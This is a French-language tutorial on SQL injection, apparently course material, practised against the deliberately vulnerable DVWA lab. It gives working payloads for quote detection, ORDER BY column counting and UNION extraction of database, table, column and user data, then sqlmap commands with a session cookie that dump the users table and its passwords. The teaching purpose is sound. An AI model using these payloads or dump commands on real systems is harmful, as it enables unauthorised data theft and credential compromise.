# Injections SQL

## Notions de base

Voici quelques notions de base avant de faire de l'injection SQL.  

### Instructions de commentaires dans SQLi

Voici les différentes façons de commenter du code SQLi :  

Style  | Nom  
--|--
--  | MySQL sur linux
--+  | MySQL sur Windows
\#  | Dièse  
--+-  | Commentaire SQL
;%00  | Null  

### Différentes façons d'assigner des valeurs dans la requête

Une valeur peut être utilisée de 3 différentes façons :

Passage d'un integer : `select * from table where id=1`

Passage d'une chaine de caractères avec l'apostrophe : `select * from table where id='1'`

Passage d'une chaine de caractères avec le guillemet : `select * from table where id="1"`

C'est important de découvrir quelle des trois techniques a été utilisée dans le code, pour bien injecter notre propre code.

## Buts de l'injection SQL  

Le but ultime de l'injection SQL et d'utiliser un champ d'une application Web et exécuter n'importe quelle instruction SQL.  

## Reconnaissance active  

La première étape est la reconnaissance active. Dans ce contexte, ce sont ces étapes :  

1. Déterminer le type d'assignation des valeurs dans la requête  
2. Déterminer le nombre de colonnes que la requête retourne  
3. Trouver les informations sur la base de données
4. Faire la liste des tables
5. Faire la liste des champs des tables

### 1. Type d'assignation des valeurs  

Voici l'interface de notre test :  



Quand on entre un ID, l'interface retourne l'information.  

Voici les étapes pour tester quel type d'assignation est utilisé dans la requête SQL :  

Commencez par entrer `1'` (le chiffre 1 et l'apostrophe)

Si le résultat est une erreur ou une absence d'affichage, ce peut être une assignation **integer** ou **apostrophe**.



Si le résultat est similaire à entrer un ID normal, c'est probablement **guillemets**.  

Voici les autres tests à faire :  

Entrée  | integer  | apostrophe  | guillemets
--|---|---|--
23'  | Erreur  | Erreur  |  OK
23"  | Erreur  | OK  | Erreur
23 or 1=1  | OK  | Erreur  | Erreur
23' or '1' = '1  | Erreur  | OK  | Erreur
23" or "1" = "1  | Erreur  | Erreur  | OK

Maintenant, il faut tester si l'assignation se fait entre parenthèse, par exemple :  

`select * from table where id=(1)`  

Si c'est une assignation **integer**, faire les tests suivants :  

Entrée  |  Remarque
--|--
1 #  | Si OK, pas de parenthèses  
1) #  |  Si OK, utilise les parenthèses

Si c'est une assignation **apostrophes**, faire les tests suivants :  

Entrée  |  Remarque  
--|--
1' #  | Si OK, pas de parenthèses  
1') # |  Si OK, utilise les parenthèses

Si c'est une assignation **guillemets**, faire les tests suivants :  

Entrée  |  Remarque  
--|--
1" #  | Si OK, pas de parenthèses  
1") #  |  Si OK, utilise les parenthèses

### 2. Déterminer le nombre de colonnes  

Pour déterminer le nombre de colonnes de la requête SQL, nous allons utiliser la fonction ORDER BY.  

Prenez cette requête :  

`Select nom, prenom from etudiants order by 1`  

Cette requête retournera la liste des étudiants triée par nom.

`Select nom, prenom from etudiants order by 2`  

Cette requête retournera la liste des étudiants triée par prénom.

`Select nom, prenom from etudiants order by 3`  

Cette requête retournera une erreur, la colonne 3 n'existe pas.

Sachant ce comportement, injectons ceci :  

Assignation  | Entrée
--|--
Integer  |  1 ORDER BY 1 #
Apostrophe  |  1' ORDER BY 1 #
Guillemets  |  1" ORDER BY 1 #

Ensuite  :  

Assignation  | Entrée
--|--
Integer  |  1 ORDER BY 2 #
Apostrophe  |  1' ORDER BY 2 #
Guillemets  |  1" ORDER BY 2 #

Et ainsi de suite, jusqu'à obtention d'une erreur.  

### 3. Trouver les informations sur la base de données

La technique pour trouver les informations sur la base de données et tout autre données est l'utilisation de l'instruction UNION.  

L'instruction UNION permet de combiner la sortie de deux requêtes SQL en une seule, tant et aussi longtemps qu'elles ont le même nombre de colonnes.  

Prenons l'instruction suivante :  

`Select nom, prenom from etudiants where id = 1`

Cette requête retourne ceci :  

Nom  |  Prénom
--|--
George  | Lemieux  

`Select nom, prenom from etudiants where id = 2`

Cette requête retourne ceci :  

Nom  |  Prénom
--|--
Lucien  | Poirier  

Si nous faisons l'union de ces deux requêtes :  

`Select nom, prenom from etudiants where id = 1 UNION Select nom, prenom from etudiants where id = 2`

Cette requête retourne ceci :  

Nom  |  Prénom
--|--
George  | Lemieux  
Lucien  | Poirier    

Donc, dans notre injection, nous allons faire des UNION pour extraire l'information de la base de données.  

Premier test d'UNION :

`1 UNION SELECT 1,2 #`  

Devrait retourner ceci :  



Maintenant, allons chercher l'information de la base de donnée :  

`1 UNION SELECT null, database() #`

Notez que pour respecter le nombre de colonnes, null est ajouté à la place de colonnes qui ne sont pas utiles dans la requête à injecter.  

La requête retourne ceci :  



La version de la BD :  

`1 UNION SELECT null, version() #`

Retourne ceci :  



L'utilisateur que se sert l'application pour exécuter les requêtes SQL :  

`1 UNION SELECT null, user() #`

Retourne ceci :  



### 4. Faire la liste des tables  

Pour faire la liste des tables, il suffit de faire une requête dans le schéma d'information (ceci est pour MySQL) :  

`1 UNION Select null, table_name from information_schema.tables #`  



Pour chercher une table avec un nom particulier, on peut filtrer comme ceci :  

`1 UNION Select null, table_name from information_schema.tables where table_name like 'u%' #`  



### 5. Faire la liste des champs des tables

Pour faire la liste des tables, il suffit de faire une requête dans le schéma d'information (ceci est pour MySQL) :  

`1 UNION Select table_name, column_name from information_schema.columns where table_name = 'users' #`  

   

## Extraction de données  

Essayons d'extraire la liste des utilisateurs de la base de données :  

`1 UNION Select null, concat(0x0a,'USER ID: ',user_id, 0x0a, 'First name: ', first_name, 0x0a, 'Last name: ', last_name ) from users #`  

Truc:  `0x0a` et le caractère de retour de chariot, permet d'afficher sur plusieurs lignes nos résultats...



## Utilisation d'outils automatisés pour l'injection SQL

Pour notre prochain test, nous allons utiliser deux outils :

1. Firefox : pour capturer les témoins  
2. SQLMap : pour automatiser l'injection SQL    


### Firefox  

Nous voulons extraire les témoins de la page Web de DVWA car les témoins contiendrons les informations de la session PHP qui est créée lors du login. SQLMap ne peut se loguer lui-même, mais peut utiliser les témoins.

1 - Dans les outils développeur de Firefox, ouvrir le stockage des témoins:  



Nous avons maintenant le témoin pour utiliser SQLMap.

### SQLMap

SQLMap est un outil pour automatiser l'injection SQL.  C'est un outil en ligne de commande.

Pour déterminer les bases de données accessibles via l'injection SQL :  

```
sqlmap -u "http://192.168.40.7/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" \
  --cookie="security=low; PHPSESSID=d62199405e459ee9b9a66cab06d90cd3" \
  -dbs
```

Résultat :  

  

Pour déterminer les tables d'une base de données :  

```
sqlmap -u "http://192.168.40.7/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" \
  --cookie="security=low; PHPSESSID=d62199405e459ee9b9a66cab06d90cd3" \  
  -D dvwa -tables
```

Résultat :  



Pour extraire la table users :  

```
sqlmap -u "http://192.168.40.7/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" \
  --cookie="security=low; PHPSESSID=d62199405e459ee9b9a66cab06d90cd3" \
  -D dvwa -T users -dump
```

SQLMap automatise l'extraction des mots de passe. Voici les réponses aux questions pour ce faire :  



Résultat :  



## Testez vos connaissances  

[Petit quiz sur l'injection SQL](https://forms.office.com/r/6ZettJa66y)  
